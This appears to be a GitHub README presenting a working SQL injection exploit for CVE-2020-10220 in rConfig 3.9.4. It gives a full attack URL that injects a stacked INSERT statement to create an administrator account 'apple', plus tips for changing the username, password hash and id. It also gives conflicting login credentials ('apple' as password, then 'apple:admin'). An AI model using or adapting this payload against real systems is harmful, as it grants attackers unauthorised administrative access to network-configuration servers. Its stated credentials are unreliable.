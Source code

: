 # rConfig-3.9.4-SQL-injection-for-creating-admin

## CVE-2020-10220 

The following URL adds a user "apple" with password "apple" to the rConfig service. After running this, you can then login with the credentials apple:admin
```
https://192.168.95.57:8081/commands.inc.php?searchOption=contains&searchField=vuln&search=search&searchColumn=command ;INSERT INTO `users` (`id`, `username`, `password`, `userid`, `userlevel`, `email`, `timestamp`, `status`) VALUES ('450', 'apple', '1f3870be274f6c49b3e31a0c6728957f', '6c97424dc92f14ae78f8cc13cd08308d', 9, 'apple@domain.com', 1346920339, 1);--
```
#### Things that can be changed:
* Obviously the username can be change. 
* The password field can be changed too. Just replace it with the corresponding md5 hash.
* For changing the id field, better keep it small (like between 200 and 900).
